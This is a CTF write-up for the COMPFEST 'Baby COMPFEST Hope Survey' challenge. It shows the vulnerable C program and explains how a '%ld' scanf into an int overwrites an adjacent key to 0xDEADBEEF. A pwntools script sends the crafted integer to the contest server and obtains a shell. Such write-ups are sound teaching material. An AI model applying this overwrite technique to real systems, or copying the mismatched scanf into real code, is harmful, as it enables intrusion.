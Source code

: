 # COMPFEST CTF HACKER CLASS WRITEUP

:::info
:bulb: This write-up is written by Abyan Hafiizh. 
:::

## Table of Contents

[TOC]

## Baby COMPFEST Hope Survey

### Source Code
In this challenge, we are provided with the source code and binary file to exploit.

```c
#include <stdio.h>
#include <stdlib.h>

#define BUF_SIZE 0x100

__attribute__((constructor)) _()
{
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    puts("Selamat datang para peserta CTF COMPFEST 16!");
    puts("Sebelum tahap penyisihan, kami ingin mengetahui harapan Anda sebagai peserta kami.");
    puts("Silakan isi form berikut dengan harapan Anda. Terima kasih!");
}

void read_val(const char *msg, void *ptr)
{
    printf("%s", msg);
    scanf("%ld", ptr);
}

void read_buf(const char *msg, char *buf, int length)
{
    printf("%s", msg);
    read(0, buf, BUF_SIZE);
}

int main()
{
    puts("\n===== Form Harapan Peserta CTF COMPFEST 16 =====");

    int key = 0;
    int length;
    read_val("Panjang harapan (biar efisien harap maklum): ", &length);
    if (length < 0 || length >= BUF_SIZE)
    {
        printf("Hayo jangan nackal ya dek...\n");
        return -1;
    }

    if (key == 0xDEADBEEF)
    {
        puts("\nEmang boleh se-hengker ini...");
        system("/bin/sh");
        return 69;
    }

    puts("Mohon maaf saat ini form sedang dalam perbaikan. Silakan coba chall sebelah dulu hehe.");
}
```

In the code above, we can see several functions that can potentially be exploited, such as `read_buf()`, although it is not called within the `main` function.

Next, we look at the `read_val()` function, where we see that our input is read using the format specifier `%ld` for a long integer. Negative values in long integers are represented in two's complement form. 

When this value is then cast or interpreted as an integer, only the lower 32 bits are used. This type confusion can be exploited to perform an integer overflow and change `key` to `0xDEADBEEF`.

### Exploitation

---

![](https://github.com/byf1sh/CTF-WriteUps/blob/main/Compfest%20-%20Writeup/Assets/craft_payload_babby.png?raw=true)

---

By exploiting the type confusion, we can insert `DEADBEEF` in the first 8 bits and zeroes in the next 8 bits. This payload will cause an overflow and change the value of `key` from 0 to `DEADBEEF`.

---

![](https://github.com/byf1sh/CTF-WriteUps/blob/main/Compfest%20-%20Writeup/Assets/effidence%201.png?raw=true)

---

As shown in the image above, the value of `key` (rbp-4) has been changed to `deadbeef`, and we can obtain a shell.

### Exploit with Python Script (pwn)
```python
from pwn import *

# Specify the remote server address and port
remote_address = 'challenges.ctf.compfest.id'
remote_port = 20005

# The value that will overwrite the key to 0xDEADBEEF
payload = '-2401053092612145152'

# Connect to the remote server
io = remote(remote_address, remote_port)

# Send the payload to the program
io.sendline(payload)

# Interact with the obtained shell
io.interactive()
```
---

![](https://github.com/byf1sh/CTF-WriteUps/blob/main/Compfest%20-%20Writeup/Assets/evidence%202.png?raw=true)

---

Thank you.
